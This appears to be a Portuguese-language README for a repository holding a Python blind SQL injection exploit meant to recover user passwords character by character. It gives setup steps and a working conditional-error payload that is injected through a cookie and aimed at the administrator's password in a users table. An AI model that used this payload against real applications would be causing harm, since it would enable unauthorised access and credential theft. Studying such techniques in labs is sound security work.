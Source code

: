 # Blind SQL Injection Exploit

Este repositório contém um script Python para explorar vulnerabilidades de **Blind SQL Injection** em uma aplicação web. O script é projetado para descobrir senhas de usuários de forma incremental, testando caracteres um por um.

## 📋 Requisitos ##

- Python 3
- Biblioteca `requests` instalada (`pip install requests`)

## 🚀 Como Usar ##

1. **Clone o repositório:**
   ```bash
   git clone https://github.com/seu-usuario/sqli-exploit.git
   cd sqli-exploit
   
2. **Configure o exploit com os parametros de ataque**
-- Linha 97:
"Configurações do ataque
url = "https://url.com"<br>
max_requests = 1000 -- Valor limite da requisição no pool<br>
status_check = 500 -- Status de retorno<br>
cookie_template = "'||(SELECT CASE WHEN SUBSTR(password,$1,1)='$2' THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator')||'" -- SQLi<br>
tamanho_senha = 20  # Defina o comprimento estimado da senha" -- Tamanho da senha. "

3. **Execute o exploit:**
   ```bash
   python3 fuzzer_for_blind_sqli.py
